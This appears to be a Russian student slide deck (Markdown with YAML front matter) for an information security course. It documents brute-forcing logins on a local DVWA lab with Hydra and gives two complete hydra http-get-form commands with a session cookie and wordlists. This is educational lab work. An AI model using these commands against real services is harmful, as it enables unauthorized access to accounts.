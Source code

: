 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект №3
subtitle: Основы информационной безопасности
author:
  - Барсегян В.Л.
institute:
  - Российский университет дружбы народов им. Патриса Лумумбы, Москва, Россия

## i18n babel
babel-lang: russian
babel-otherlangs: english

## Formatting pdf
toc: false
toc-title: Содержание
slide_level: 2
aspectratio: 169
section-titles: true
theme: metropolis
header-includes:
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
 - '\makeatletter'
 - '\beamer@ignorenonframefalse'
 - '\makeatother'

## Fonts
mainfont: Arial
romanfont: Arial
sansfont: Arial
monofont: Arial
---
```


## Докладчик


  * Барсегян Вардан Левонович
  * НПИбд-01-22
  * Российский университет дружбы народов
  * [1132222005@pfur.ru]
  * <https://github.com/VARdamn/study_2023-2024_infosec/tree/master/project-personal>
  
# Вводная часть

## Цели и задачи

Знакомство с Hydra для подбора или взлома имени пользователя и пароля.

# Выполнение лабораторной работы

## Открываю в браузере страницу http://127.0.0.1/DVWA/login.php и вхожу в DVWA

![Вход в DVWA](image/1.png){ #fig:001 width=70% }

## Открываю страницу http://127.0.0.1/DVWA/security.php и выставляю уровень безопасности на низкий

![Низкий уровень безопасности](image/2.png){ #fig:002 width=70% }

## Создаю файл с паролями, в него ввожу самые распространенные пароли 

![Файл с паролями](image/3.png){ #fig:003 width=70% }

## Перехожу во вкладку Brute Force, где можно подобрать комбинацию логина и пароля и проверить, верна ли она. Во вкладке Network консоли разработчика смотрю запрос для валидации логина и пароля - это GET-запрос, отправляющий логин, пароль в качестве параметров 

![Запрос для проверки комбинации](image/4.png){ #fig:004 width=70% }

## Куки GET-запроса - уровень безопасности и id сессии 

![Куки запроса](image/5.png){ #fig:005 width=70% }

## Ввожу команду для hydra:

'''
hydra -l admin -P ~/passwords.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=1pu2bih9masffp4i16iap5dglc;security=low:F=Username and/or password incorrect"
'''

ключ -l –	логин для входа
ключ -P –	пароль для входа, берутся все возможные из файла ~/passwords.txt
http-get-form – тип запроса (GET)
дополнительный параметр (длинная строка) - полный путь, параметры, куки, и сообщение при ошибке

## В результате, hydra подобрала верную комбинацию: логин admin и пароль password

![Команда для подбора пароля](image/6.png){ #fig:006 width=70% }

## Создаю файл с возможными логинами

![Файл с логинами](image/7.png){ #fig:007 width=70% }

## Изменяю команду для hydra: указываю ключ -L ~/usernames.txt, чтобы логины ткаже перебирались из файла 

'''
hydra -L ~/usernames.txt -P ~/passwords.txt 127.0.0.1 http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=1pu2bih9masffp4i16iap5dglc;security=low:F=Username and/or password incorrect"
'''

## Измененная команда

![Измененная команда](image/8.png){ #fig:008 width=70% }

## Вывод

Я познакомился с hydra, научился подбирать логины и пароли с помощью нее, отправляя запросы.
